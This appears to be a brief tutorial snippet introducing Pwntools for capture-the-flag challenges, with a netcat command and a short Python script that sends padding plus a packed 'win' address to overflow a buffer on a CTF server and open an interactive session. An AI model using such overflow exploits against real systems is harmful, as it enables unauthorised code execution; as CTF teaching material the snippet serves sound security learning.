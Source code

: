 ## Pwntools
A grab-bag of tools to make writing exploits for CTFs easy!


```
nc pwn.hsctf.com 1234
```
```python
from pwn import * 
p = remote('pwn.hsctf.com', 1234)
buf = 'A'*20
win = p32(0x080491b6)
payload = buf + win
p.sendline(payload)
p.interactive()
```
